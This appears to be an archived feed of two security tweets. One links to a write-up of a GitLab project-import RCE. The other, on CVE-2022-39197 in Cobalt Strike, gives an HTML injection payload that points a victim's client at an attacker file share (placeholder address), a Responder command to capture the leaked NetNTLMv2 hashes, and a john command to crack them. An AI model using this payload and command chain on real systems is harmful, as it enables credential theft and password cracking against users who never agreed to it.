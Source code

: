 
---

# reverseame
**https://twitter.com/reverseame/status/1573230813180829696 _at 2022-09-23, 08:40:29_**
<blockquote>
Gitlab Project Import RCE Analysis (CVE-2022-2185) https://t.co/DxWDiEm7bx
</blockquote>

* https://starlabs.sg/blog/2022/07-gitlab-project-import-rce-analysis-cve-2022-2185/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# jas502n
**https://twitter.com/jas502n/status/1573170747807506432 _at 2022-09-23, 04:41:49_**
<blockquote>
#CVE-2022-39197 Cobalt Strike 

&lt;html&gt;&lt; img src='file://x.x.x.x/netntlm2'%&gt;
python3 https://t.co/L4ftnwVwvh -I eth0
john --format=netntlmv2 --wordlist=pass.txt creds.txt https://t.co/wwRkdYiWcZ
</blockquote>

* http://Responder.py

<table><tr>
<td><img src="pictures/8c6aa115c7b1b90d980707869efe206c00fc46442fa19a8e6e877b298602ce56.jpg" alt="8c6aa115c7b1b90d980707869efe206c00fc46442fa19a8e6e877b298602ce56.jpg"></td>
<td><img src="pictures/221b96e461a04d9e40709c5235025dac34158f1c34b12907f306e4d1dc88ae5b.jpg" alt="221b96e461a04d9e40709c5235025dac34158f1c34b12907f306e4d1dc88ae5b.jpg"></td>